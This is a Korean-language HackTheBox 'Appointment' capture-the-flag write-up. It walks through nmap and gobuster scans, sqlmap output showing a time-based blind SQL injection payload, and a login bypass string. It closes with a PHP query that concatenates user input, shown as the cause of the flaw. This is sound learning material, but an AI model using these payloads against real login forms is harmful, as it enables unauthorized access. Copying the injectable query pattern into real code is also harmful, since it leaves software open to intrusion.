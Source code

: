 ```yaml
---
title: HTB Appointment Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, Gobuster, Sql, Injection]
images:
    path: 
---
```

대상 서버에서 동작하는 서비스에 대해 먼저 알아보자. 

``` shell
 read-min 🇰   ~  nmap 10.129.198.242 -sV -sC
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 14:07 KST
Nmap scan report for 10.129.198.242
Host is up (0.26s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

gobuster를 위한 wordlist는 아래 경로에서 다운로드 했다.

> https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt

gobuster로 스캔한 결과는 아래와 같다. 유의미한 결과가 있지는 않은 것 같다.
``` bash
# gobuster dir -u http://10.129.198.242 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.198.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4896]
/images               (Status: 301) [Size: 317] [--> http://10.129.198.242/images/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.198.242/js/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.198.242/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.198.242/fonts/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.198.242/vendor/]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

그렇다면 80 port에 직접 브라우저로 접근 시 아래와 같이 로그인 화면이 나온다. SQL Injection을 통해 로그인하라는 내용 같다.
![](../assets/image_post/20240204150016.png)

바로 간단한 구문을 테스트해도 되지만, 다양한 툴을 접해보는 것도 목적이기에 sqlmap 툴을 사용해봤다.

``` bash
# sqlmap -u "http://10.129.198.242/" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:22 /2024-02-04/

[06:03:22] [INFO] testing connection to the target URL
[06:03:22] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:03:23] [INFO] testing if the target URL content is stable
[06:03:23] [INFO] target URL content is stable
[06:03:23] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--forms --crawl=2'

[*] ending @ 06:03:23 /2024-02-04/
```

Critical의 내용과 같이 옵션을 추가해서 다시 진행하였다. 아래와 같이 취약점이 존재한다는 결과에 대해 확인이 가능하다.

``` shell
# sqlmap -u "http://10.129.198.242/" --batch --forms --crawl=2
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:50 /2024-02-04/

do you want to check for the existence of site's sitemap(.xml) [y/N] N
[06:03:50] [INFO] starting crawler for target URL 'http://10.129.198.242/'
[06:03:50] [INFO] searching for links with depth 1
[06:03:51] [INFO] searching for links with depth 2
please enter number of threads? [Enter for 1 (current)] 1
[06:03:51] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n] Y
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] N
[1/1] Form:
POST http://10.129.198.242/
POST data: username=&password=&remember-me=on

...skip...

[06:04:45] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[06:04:45] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=pMzq' AND (SELECT 6086 FROM (SELECT(SLEEP(5)))HBmG) AND 'UXcN'='UXcN&password=JaMC&remember-me=on
---
```

취약점 존재 여부에 대해선 확인하였으니 아래와 같이 로그인을 수행할 수 있다.

> username: admin   / pw: 1' or''=' 

로그인 시 아래와 같이 정답 flag가 노출된다.

![](../assets/image_post/20240204151501.png)

---

문제에 대한 풀이는 끝났지만, SQL Injection에 대해 추가적으로 알아보고자 아래에 추가적으로 정리한 내용이다. 우선 공격에 사용된 코드를 통해 서버 측에서는 받아온 입력 값을 그대로 db 쿼리에 사용하고 있음을 알 수가 있다. 대략적인 php 코드는 아래와 같을 것이다.

``` php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
``` 

이러한 상태에서 위 공격 구문을 대입하면 아래와 같은 형태로, `''=''`은 true가 되므로 password는 항상 참의 값이 된다.

``` php
"SELECT * FROM users WHERE username='$username' AND password='1' or''=''"
```

SQL Injection은 실제 탐지한 경험이 없다보니, 많이 낯선 영역 같다. 이 쪽을 좀 더 많이 해봐야겠다.

![](../assets/image_post/20240204151558.png)
